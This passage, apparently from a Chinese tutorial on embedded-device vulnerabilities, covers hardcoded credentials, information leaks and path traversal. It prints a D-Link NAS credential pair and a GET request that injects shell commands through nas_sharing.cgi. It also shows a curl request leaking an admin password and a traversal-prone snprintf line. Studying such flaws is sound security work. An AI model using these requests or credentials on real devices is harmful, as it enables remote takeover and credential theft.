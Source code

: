 ```
        fclose(v5);
        strcpy(&dest, (const char *)&v9);
        v7 = (const char *)sub_1603C(&dest, &s);
        return (struct passwd *)(strcmp(v7, &s) == 0);
    }
    {...}
}


```

可以看出代码中包含了一个管理员凭据 (用户名 mydlinkBRionyg / 密码 abc12345cba)，代码中还使用了危险函数 strcpy，虽然在这个漏洞没有用到，结合硬编码可以构造命令注入数据实现设备的远程控制。

```
GET /cgi-bin/nas_sharing.cgi?dbg=1&cmd=51&user=mydlinkBRionyg&passwd=YWJjMT
IzNDVjYmE&start=1&count=1;{your cmd};


```

此种漏洞还是比较直观的，可以通过 (二进制) 代码审计找到，使用一些反汇编插可以提高挖掘效率，在后文我们会讨论到。

#### 2.1.2 信息泄漏

信息泄漏概念比较泛，完全杜绝很困难，一般只要出现对设备研究 (攻击) 有帮助的信息泄漏都会造成一定危害，不仅用户信息 (用户名、密码等)，二进制文件地址信息等较为敏感，http(s) 响应头中的某些字段、error、debug 等信息泄漏也同样能给攻击者带来帮助，从某些文件的 last_modified 时间能推算出固件版本，这些熟悉渗透测试的小伙伴应该比较了解。

```
# curl -d SERVICES=DEVICE.ACCOUNT http://{ip}/getcfg.php
<?xml version="1.0" encoding="utf-8"?>
    <postxml>
        <...>
        <uid>USR-</uid>
        <name>admin</name>
        <usrid></usrid>
        <password>admin1324</password>
        <...>
    </postxml>


```

#### 2.1.3 目录穿越

目录穿越是未设置访问边界，客户端可以越界访问到不该提供文件，一般会造成任意文件读漏洞。以下链接很好的介绍了常见的目录穿越漏洞点，有兴趣的小伙伴可以自行阅读。

> https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/

目录穿越漏洞原理比较简单，但有时候也需要一些技巧。

*   某防火墙目录穿越漏洞，可获取配置文件等敏感信息

```
snprintf(s, 0x40, "/migadmin/lang/%s.json", lang);


```
